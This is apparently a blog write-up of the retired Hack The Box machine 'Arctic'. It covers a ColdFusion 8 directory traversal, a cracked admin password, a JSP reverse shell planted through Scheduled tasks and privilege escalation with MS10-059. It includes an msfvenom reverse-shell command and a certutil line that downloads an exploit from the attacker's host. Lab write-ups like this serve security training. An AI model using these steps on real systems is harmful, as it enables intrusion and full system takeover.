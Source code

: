 ```yaml
---
title: Arctic Hackthebox Writeup
date: 2020-12-22 09:00:00 +0800
categories: [Hackthebox, Retired]
tags: [windows,coldfusion,coldfusion8,directory traversal,jsp shell,java,msfvenom,windows exploit suggester]     # TAG names should always be lowercase
image: /assets/img/arctic-hackthebox/arctic-pic.png
subtitle: JHBDOcubeoveiubo
---
```



# Introduction@Access:~$


Column | Details
------------ | -------------
Name | Arctic
IP | 10.10.10.11
Points | 20
Os | Windows
Difficult | Easy
Creator | [ch4p](https://www.hackthebox.eu/home/users/profile/1)
Out on | 22nd March 2017

# Summary:~$

* Discovering the new host and scanning for open ports.
* Exploiting `Coldfusion8` for *directory traversal* and getting the credentials to login as **Admin**.
* Loging into the dashboard and uploading a `jsp` shell to get a reverse connection back using *Scheduled tasks* functionality.
* Escalating `Privileges` by using **Local windows exploit suggester**, which gave `MS10-059.exe` as one of the recommendations.

# Starting:~$

## Nmap

I have used **nmapAutomator** , which keeps the scanning fast and reduces effort.*(Not recommended in real life scenarios).* 

Dowload link: [nmapAutomator](https://github.com/21y4d/nmapAutomator)

___
![](/assets/img/arctic-hackthebox/nmap-scan-1.png)

Basically `3 Ports` are open i.e. `135,8500,49154`. I found this about port *8500* on the internet:

___
![](/assets/img/arctic-hackthebox/port-8500-cold-fusion-2-tcp.png)

It runs `Adobe Coldfusion` on tcp port.

Accessing `port 8500`, I found this:

___
![](/assets/img/arctic-hackthebox/accessing-port-8500-3.png)

Exploring `/CFIDE` directory

___
![](/assets/img/arctic-hackthebox/CFIDE-directory-port-8500-access-4.png)

We finally got a admin page on **http://10.10.10.11:8500/CFIDE/administrator/enter.cfm**

___
![](/assets/img/arctic-hackthebox/admin-page-access-5.png)

Searching for some vulnerabilites on `Coldfusion8`, I found a [directory traversal vulnerability](https://www.exploit-db.com/exploits/14641)

___
![](/assets/img/arctic-hackthebox/cold-fusion-8-exploitdb-6.png)

Running the above exploit as explained, I got the `password hash` for the administrator.

___
![](/assets/img/arctic-hackthebox/got-password-for-traversal-8.png)

Running it on an online decrypter, I got the password as `happyday`.

___
![](/assets/img/arctic-hackthebox/we-got-this-encrypted-value-9.png)

I googled a bit and found that `Scheduled tasks` can be inititated from the **coldfusion8** dashboard.

___
![](/assets/img/arctic-hackthebox/scheduled-tasks-creating-a-new-task-10.png)

As it shows *Java and JVM*, so I thought to upload a `jsp shell`.

Creating payload using `msfvenom`.

**Command** : *msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.5 LPORT=4444 -f raw > reverse.jsp*

___
![](/assets/img/arctic-hackthebox/creating-msfvenom-payload-23.png)

Hosting it on my machine using `Python server`.

**Hosting**: *python3 -m http.server 8081*

Using URL as `http://10.10.X.X:8081/reverse.jsp` --> *To download it on the windows machine.*

Saving the **Output file as** : `C:\ColdFusion8\wwwroot\CFIDE\shell.jsp`

Make sure to fill the **User Name** and **Password** field while scheduling the task.

*User Name:* `admin` *Password:* `happyday`

___
![])(/assets/img/arctic-hackthebox/shell-page-new-24.png)

Now running the `Scheduled task`.

___
![](/assets/img/arctic-hackthebox/running-scheduled-task-25.png)

Accessing the shell on `http://10.10.10.11:8500/CFIDE/shell.jsp` and listeing on the specified port, we got `User shell`.

___
![](/assets/img/arctic-hackthebox/got-shell-26.png)

Let's gather `systeminfo` for Privilege Escalation.

___
![](/assets/img/arctic-hackthebox/copy-system-info-27.png)

Feeding the above information to `windows exploit suggester` which I had downloaded on my machine.

Download link : [windows-exploit-suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)

___
![](/assets/img/arctic-hackthebox/windows-exploit-suggester-28.png)

Using `MS10-059.exe` to escalate privileges.

[Download Link](https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS10-059/MS10-059.exe)

Sending the executable to windows machine using `certutil` command.

**Command**: `certutil -urlcache -split -f http://10.10.X.X:8081/MS10-059.exe priv.exe`

___
![](/assets/img/arctic-hackthebox/ms-10-059-exe-30.png)

Running the `exploit`, and we got `Root`.

___
![](/assets/img/arctic-hackthebox/got-root-31.png)
